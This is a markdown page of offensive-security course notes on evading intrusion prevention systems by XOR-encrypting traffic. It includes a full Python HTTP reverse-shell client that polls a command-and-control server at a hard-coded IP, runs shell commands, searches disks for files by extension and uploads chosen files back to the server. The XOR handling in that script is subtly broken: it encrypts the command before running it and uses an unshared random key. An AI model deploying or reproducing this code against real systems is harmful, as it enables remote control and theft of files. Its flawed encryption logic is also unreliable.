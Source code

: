 ```yaml
---
title: Bypassing IPS with handmade XOR Encryption
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - ips
  - xor encryption
---
```


# Bypassing IPS with handmade XOR Encryption

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


The idea is to encrypt our traffic to avoid network analyzers or intrusion prevention sensors. SSL or SSH is not recommended here since Next Generation Firewalls have the ability to decrypt them and pass it as plain text to the IPS, where it will be recognized.

- Create a secret key of 1Kb that matches the size of the socket, to make a XOR operation to encrypt the message


```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


# The random and string libraries are used to generate a random string with flexible criteria
import string
import random


# Random Key Generator
key = ''.join(random.choice(string.ascii_lowercase + string.ascii_uppercase + string.digits + '^!\$%&/()=?{[]}+~#-_.:,;<>|\\') for _ in range(0, 1024))


print(key)

print ("\n" + "Key length = " + str(len(key)))

message = 'ipconfig'
print("Msg: " + message + '\n')


# here i defined a dedicated function called str_xor, we will pass two values to this fucntion, the first value is the message(s1) that we want to encrypt or decrypt, and the second paramter is the xor key(s2). We were able to bind the encryption and the decryption phases in one function because the xor operation is exactly the same when we encrypt or decrpyt, the only difference is that when we encrypt we pass the message in clear text and when we want to decrypt we pass the encrypted message


def str_xor(s1, s2):
    return "".join([chr(ord(c1) ^ ord(c2)) for (c1, c2) in zip(s1,s2)])


# first we split the message and the xor key to a list of character pair in tuples format >>  for (c1,c2) in zip(s1,s2)

# next we will go through each tuple, and converting them to integer using (ord) function, once they converted into integers we can now perform exclusive OR on them  >>  ord(c1) ^ ord(c2)

# then convert the result back to ASCII using (chr) function  >>  chr(ord(c1) ^ ord(c2))
# last step we will merge the resulting array of characters as a sequqnece string using >>>  "".join function 

enc = str_xor(message, key)

print("Encrypted message is " + "\n" + enc + "\n")

dec = str_xor(enc, key)
print("Decrypted message is " + "\n" + dec + "\n")

```



To integrate XOR encryption into [this client side Python script](coding-a-reverse-shell-that-searches-files.md), you can modify the script to encrypt and decrypt the communication between the client and the server using the XOR encryption algorithm.

Here is an example of how to modify the script to incorporate XOR encryption:

```python
import string
import random
import requests
import os
import subprocess
import time

# Random Key Generator
key = ''.join(random.choice(string.ascii_lowercase + string.ascii_uppercase + string.digits + '^!\$%&/()=?{[]}+~#-_.:,;<>|\\') for _ in range(0, 1024))

# Define XOR function
def str_xor(s1, s2):
    return "".join([chr(ord(c1) ^ ord(c2)) for (c1, c2) in zip(s1,s2)])

while True:
    # Send GET request to C&C server to get command
    req = requests.get('http://192.168.0.152:8080')
    command = req.text
    
    # If command is to terminate, break out of loop
    if 'terminate' in command:
        break
    
    # If command is to grab a file and send it to the C&C server
    elif 'grab' in command:
        grab, path = command.split("*")
        if os.path.exists(path):
            url = "http://192.168.0.152:8080/store"
            filer = {'file': open(path, 'rb')}
            r = requests.post(url, files=filer)
        else:
            post_response = requests.post(url='http://192.168.0.152:8080', data='[-] Not able to find the file!'.encode())
    
    # If command is to search for files with a specific extension
    elif 'search' in command:
        # Split command into path and file extension
        command = command[7:] #cut off the the first 7 character ,, output would be  C:\\*.pdf
        path, ext = command.split('*')
        lists = '' # here we define a string where we will append our result on it
        
        # Walk through directories and search for files with specified extension
        for dirpath, dirname, files in os.walk(path):
            for file in files:
                if file.endswith(ext):
                    lists = lists + '\n' + os.path.join(dirpath, file)
        requests.post(url='http://192.168.0.152:8080', data=lists)
    
    # If command is a shell command, execute it and send output to the C&C server
    else:
        # Encrypt command with XOR key
        enc = str_xor(command, key)
        
        # Execute encrypted command and capture stdout and stderr
        CMD = subprocess.Popen(enc, shell=True,stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        post_response = requests.post(url='http://192.168.0.152:8080', data=str_xor(CMD.stdout.read(), key))
        post_response = requests.post(url='http://192.168.0.152:8080', data=str_xor(CMD.stderr.read(), key))
    
    time.sleep(3)

```